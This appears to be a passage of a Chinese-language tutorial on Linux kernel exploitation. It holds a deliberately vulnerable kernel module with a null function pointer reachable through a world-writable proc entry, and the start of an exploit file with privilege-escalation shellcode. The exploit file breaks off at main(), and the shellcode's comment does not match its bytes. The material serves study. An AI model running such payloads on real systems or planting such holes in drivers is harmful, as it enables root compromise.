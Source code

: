 [https://v1ckydxp.github.io/2019/07/21/2019-07-18-Linux-kerne%204.20%20bpf%E6%95%B4%E6%95%B0%E6%BA%A2%E5%87%BA/](https://v1ckydxp.github.io/2019/07/21/2019-07-18-Linux-kerne 4.20 bpf整数溢出/)

## overview

1. 找到Kernel漏洞
2. 利用漏洞实现代码执行
3. 提升权限
4. 返回用户态空间
5. 获得最高权限

## Exploit

### NULL Pointer Dereference

KVM模块null_pointer.c内容

```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

void (*my_funptr)(void);

int null_pointer_write(struct file *file, const char *buf, unsigned long len)
{
    my_funptr();
    return len;
}

static int __init null_pointer_init(void)
{
    printk(KERN_ALERT "null_pointer driver init!\n");
    create_proc_entry("null_pointer", 0666, 0)->write_proc = null_pointer_write;
    return 0;
}

static void __exit null_pointer_exit(void)
{
    printk(KERN_ALERT "null_pointer driver exit\n");
}

module_init(null_pointer_init);
module_exit(null_pointer_exit);

```

pwn.c文件内容

```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

char payload[] = "\x48\xc7\xc7\x0\x0\x0\x0\x48\xc7\xc0\x40\x17\x8\x81\xff\xd0\x48\x89\xc7\x48\xc7\xc0\x50\x15\x8\x81\xff\xd0\xc3"; // jmp 0xbadbeef

int main()
{
```